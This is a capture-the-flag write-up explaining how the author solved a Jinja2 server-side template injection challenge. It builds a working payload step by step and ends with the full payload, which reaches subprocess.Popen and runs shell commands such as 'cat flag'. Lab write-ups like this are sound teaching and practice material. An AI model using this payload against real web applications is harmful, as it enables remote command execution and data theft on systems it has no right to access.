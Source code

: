 Title: SSTI

Description

```
I only talk to smart ppl (not you)

(also only smart ppl can execute the binary)

Link: http://alpha.8059blank.ml:4004
Mirror: http://beta.8059blank.ml:4004

Author: Lucas
```

Visiting the webpage, it shows a textbox, and a title of 'School of Scholars and Top Intelligents':

![image](https://user-images.githubusercontent.com/63996033/197450310-f780fff7-16c2-48ba-ba7b-c585bda6c747.png)

The main clue here is SSTI, not to be confused with the title of the webpage: SSTI (Server Side Template Injection). So we need to inject code into the textbox which we can run shell and commands to find the flag.
This webpage gives a good flow of what we can do: https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

In the textbox, we need to use a payload inside of {{}}. The one we will try is  ```{{‘’.__class__.__mro__}}```

![image](https://user-images.githubusercontent.com/63996033/197451069-92075e43-9f1a-4d64-b67d-7aa661192f56.png)
![image](https://user-images.githubusercontent.com/63996033/197451084-9b8605ff-08f6-4515-9deb-4ad93b51a3ba.png)

We are now able to access the class objects. We will add `[1].__subclasses__()` at the end of the payload to access the subclasses which allows us to get the shell commands.

![image](https://user-images.githubusercontent.com/63996033/197451331-0034c595-acfc-45a6-a30c-f83e7fd5bee4.png)
![image](https://user-images.githubusercontent.com/63996033/197451345-a136effb-a90a-46b4-b37a-c17ac9bf3199.png)

Nice! 
We now need to access  ```<class 'subprocess.Popen'>```, which is element 350 (by trial and error, or counting will work but is time consuming).

![image](https://user-images.githubusercontent.com/63996033/197451533-dcd7da50-9851-471a-8b7a-350ac019856c.png)
![image](https://user-images.githubusercontent.com/63996033/197451547-f3dc39f2-a6c1-455d-aa8b-91c6e54e4b4c.png)

Using info from this: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-subprocesspopen
We can add ('<SHELL COMMAND>',shell=True,stdout=-1).communicate()[0].strip() to the end of our payload to do shell commands. The first command we will do is 'ls' to list all files in the directory.

![image](https://user-images.githubusercontent.com/63996033/197452312-7354f166-6bae-47e0-847f-3a2cd98c7ef7.png)

This shows a file called 'flag' which is what we want. Next command is 'cat flag' to access the contents of that file and get the flag.

![image](https://user-images.githubusercontent.com/63996033/197452417-da4aee4d-729e-4765-b9eb-d7874f1691d7.png)

Doing so will give us this. A simple Ctrl+F gives us:

![image](https://user-images.githubusercontent.com/63996033/197452479-fe5f3c82-1b02-43b7-a45b-0bd33394ef62.png)

We got our flag using this:
```
{{ ''.__class__.__mro__[1].__subclasses__()[350]('cat flag',shell=True,stdout=-1).communicate()[0].strip()}}
```

Flag: ACSI{s0m3t1m3s_my_g3n1u5...it5...it5_alm05t_fr1ght3ning...}

